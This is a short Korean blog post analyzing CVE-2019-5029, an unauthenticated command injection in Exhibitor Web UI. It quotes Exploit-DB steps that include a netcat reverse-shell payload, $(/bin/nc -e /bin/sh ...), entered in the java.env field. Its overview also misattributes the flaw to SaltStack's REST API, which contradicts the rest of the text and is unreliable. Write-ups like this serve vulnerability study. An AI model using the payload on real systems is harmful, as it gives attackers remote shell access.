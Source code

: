 ```yaml
---
title:  "CVE-2019-5029 Analysis "
excerpt: "CVE-2019-5029 분석과 활용법"

categories: cve
tags:
  - [cve, 'Exhibitor Web UI', zookeeper]

typora-root-url: ../../
 
date: 2025-08-25
last_modified_at: 2025-08-25
---
```

# CVE-2019-5029 분석 및 Exploit 사용법

## 개요
- **취약점명:** CVE-2019-5029
- **대상:** Exhibitor Web UI 버전 1.0.9부터 1.7.1까지
- **취약 유형:** OS 명령어 주입 (Command Injection)
- **위험도:** 치명적 (CVSS 9.8)
- **설명:** SaltStack 마스터 서버의 REST API가 인증 없이 외부 요청을 받아 권한 검증 없이 임의 명령 실행이 가능해지는 취약점

## 취약점 상세
  - 공격자가 백팃(\`)이나 \`$()\`로 감싼 임의의 쉘 명령어를 설정 편집기에 삽입할 수 있음
  - 이 명령어는 Exhibitor 프로세스가 ZooKeeper 실행 시에 실행됨
  - 공격자는 Exhibitor 프로세스 권한으로 임의의 명령을 실행 가능
  - 원격에서 인증 없이 공격 가능


## Exploit 예제
[Exploit-DB]https://www.exploit-db.com/exploits/48654
```javascript
The steps to exploit it from a web browser:

    Open the Exhibitor Web UI and click on the Config tab, then flip the Editing switch to ON

    In the “java.env script” field, enter any command surrounded by $() or ``, for example, for a simple reverse shell:

    $(/bin/nc -e /bin/sh 10.0.0.64 4444 &)
    Click Commit > All At Once > OK
    The command may take up to a minute to execute.
```

![reverseshell](../../images/2025-08-29-pelican/image.png)
